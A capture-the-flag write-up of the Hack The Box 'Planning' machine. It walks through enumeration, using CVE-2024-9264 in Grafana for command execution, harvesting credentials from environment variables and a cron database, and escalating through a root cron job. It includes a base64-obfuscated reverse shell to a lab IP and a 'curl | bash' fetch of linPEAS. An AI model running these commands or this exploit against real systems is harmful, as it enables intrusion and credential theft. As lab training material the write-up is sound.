




#Easy #Linux #User #Root #CredentialStuffing #Port-80 #Port-22
## Info machine

**OS** -> Linux
**Level** -> Easy
**Machine Information** -> As is common in real life pentests, you will start the Planning box with credentials for the following account: admin / 0D5oT70Fq13EvB5r

## Nmap

```
$ nmap -sC -sV -vvv -p- planning.htb
...
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMv/TbRhuPIAz+BOq4x+61TDVtlp0CfnTA2y6mk03/g2CffQmx8EL/uYKHNYNdnkO7MO3DXpUbQGq1k2H6mP6Fg=
|   256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpJkWOBF3N5HVlTJhPDWhOeW+p9G7f2E9JnYIhKs6R0
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
```

We can't get any valuable information from here, but we can see that there are two open ports, 80 and 22...
Let's look at them in detail.
Let's add planning.htb to our /etc/hosts and see


## Http (80)


It seems to be a site of the various university courses, I also looked for the source but I didn't find anything interesting...

## Enumeration

```
$ ffuf -u http://planning.htb/FUZZ -w big.txt -t 5000
...
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 42ms]
img                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 52ms]
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 47ms]
lib                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 44ms]
...
```

I didn't find anything interesting, I'll try to see if it has any subdomains
```
$ ffuf -u http://planning.htb/ -w dns-Jhaddix.txt -H "Host:FUZZ.planning.htb"  -fs 178
...
grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 98ms]
...
```

Ok, we have a result, let's add the subdomain to our /etc/hosts and see where it takes us


Let's try the credentials they gave us:
- __admin - 0D5oT70Fq13EvB5r__



We're in!
Doing a quick search on grafana I discovered that it's a panel where different data is monitored, so I thought of looking for some CVE just to have access to the machine...

## Exploit

First of all I need the version, so searching on the source I found that the version is 11.0.0.
Searching online I found this vulnerability: [CVE-2024-9264](https://github.com/nollium/CVE-2024-9264).
In short this vulnerability allows us to work with the grafana databases and above all it allows us to run commands on the machine

trying the poc we have this result:

```
$ python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'whoami' http://grafana.planning.htb/

[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: whoami
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('whoami >/tmp/grafana_cmd_output 2>&1 
|'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
root
```

Perfect, it works! Let's try to send a rce

```
$ python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTk0LzkwMDEgMD4mMQ== | base64 -d | bash'
http://grafana.planning.htb/

[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTk0LzkwMDEgMD4mMQ== | base64 -d | bash
```

Perfect, we're in!

## User

Trying to analyze the machine with linPEAS I didn't find anything interesting, so I didn't understand since there was no flag... So looking at the root of the machine I noticed a ".dockerenv" file and I understood that we were inside a docker, not inside the machine (Yes... I hadn't noticed it at first impact on linPEAS)

So now we had to find a way to escape from docker, I tried to see the environment variables and tried some interesting things:

```
$ env

GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=-al
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/usr/share/grafana
```

Well yes... we have a user and a password:
- __enzo - RioTecRANDEntANT!__

I tried to log in via ssh with user enzo, and I received excellent feedback, since I'm not connected!

```
enzo@planning:~$ cat user.txt 
e********************f
```

## Root

Trying to see with linPEAS I didn't find anything that I could use at first glance... But I had noticed two things, the first is that there were some listening ports that we couldn't access at the moment and then a database that I didn't know, I didn't understand what it was:
```
$ curl http://10.10.14.194/linpeas.sh | bash

...                
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN       
...
Found /opt/crontabs/crontab.db: New Line Delimited JSON text data 
... 
```

At first glance I didn't know what this database was, so I opened it and noticed something:

```
$ cat /opt/crontabs/crontab.db | jq

{                                                                             
  "name": "Grafana backup",                                                      
  "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",    
  "schedule": "@daily",                                                         
  "stopped": false,                                                            
  "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Uniersal Time)",     
  "logging": "false",                                                        
  "mailing": {},                                                             
  "created": 1740774983276,                                                 
  "saved": false,                                                          
  "_id": "GTI22PpoJNtRKg0W"  
}                                                                                                                                                            
{
  "name": "Cleanup",
  "command": "/root/scripts/cleanup.sh",
  "schedule": "* * * * *",
  "stopped": false,
  "timestamp": "Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740849309992,
  "saved": false,
  "_id": "gNIRXh1WIc9K7BYX"
}
```

I deduced that it is a database where all the tasks that the system must perform every so often are saved, so at first glance I thought of modifying it to put a rce in it to have access as root, seeing that the second task "Cleanup" was launched by the root.

Did it work? Well the answer is __no__.

In fact I don't have the necessary permissions to modify it, so I thought about that open port and doing a port forwarding via ssh I saw an interesting thing...

```
$ ssh enzo@planning.htb -L 8000:127.0.0.1:8000
```



ok I admit that here I sweated, I tried all the passwords received but I couldn't get in...
Then I remembered something, there was a password.
You're probably wondering: "Password? But where?"
Do you remember the tasks? There was a backup task where to create a backup it used a password: "P4ssw0rdS0pRi0T3c", here I tried it with various usernames and finally...



I did it! In fact the credentials were:
- root - P4ssw0rdS0pRi0T3c
Here I thought of doing the same thing I had thought of before, that of creating a rce and putting it inside the task



We have a connection, let's try to make an id

```
$ id

uid=0(root) gid=0(root) groups=0(root)
```


```
$ cat /root/root.txt

2************************5
```

## The end

Ok, I have to say I enjoyed it.
There were some things that made me think and reason and that made me enjoy it

Thanks for reading

-- 1xA1e --